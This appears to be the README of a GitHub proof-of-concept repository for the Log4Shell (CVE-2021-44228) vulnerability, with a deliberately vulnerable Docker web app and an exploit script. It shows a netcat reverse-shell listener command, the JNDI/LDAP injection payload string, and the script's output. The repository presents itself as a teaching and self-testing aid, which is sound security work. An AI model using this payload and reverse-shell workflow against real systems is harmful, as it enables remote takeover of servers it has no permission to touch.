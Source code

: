 # log4j-shell-poc
A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>
Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have made and example vulnerable application and proof-of-concept (POC) exploit of it.


A video showing the exploitation process
----------------------------------------

Vuln Web App:

https://user-images.githubusercontent.com/87979263/146113359-20663eaa-555d-4d60-828d-a7f769ebd266.mp4

<br>

Ghidra (Old script):

https://user-images.githubusercontent.com/87979263/145728478-b4686da9-17d0-4511-be74-c6e6fff97740.mp4

<br>

Minecraft PoC (Old script):

https://user-images.githubusercontent.com/87979263/145681727-2bfd9884-a3e6-45dd-92e2-a624f29a8863.mp4


Proof-of-concept (POC)
----------------------

As a PoC we have created a python file that automates the process. 


#### Requirements:
```bash
pip install -r requirements.txt
```
#### Usage:


* Start a netcat listener to accept reverse shell connection.<br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Our vulnerable application
--------------------------

We have added a Dockerfile with the vulnerable webapp. You can use this by following the steps below:
```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```
Once it is running, you can access it on localhost:8080

If you would like to further develop the project you can use Intellij IDE which we used to develop the project. We have also included a `.idea` folder where we have configuration files which make the job a bit easier. You can probably also use other IDE's too.

<br>

Getting the Java version.
--------------------------------------

At the time of creating the exploit we were unsure of exactly which versions of java work and which don't so chose to work with one of the earliest versions of java 8: `java-8u20`.

```
> https://drive.google.com/file/d/1ZjUTMUs6dSekrwW-yBSG2kst2KPgha7F/view?usp=sharing
```

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>
**Note:** Please make sure to extract the jdk folder into this repository with the same name in order for it to work.

```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.

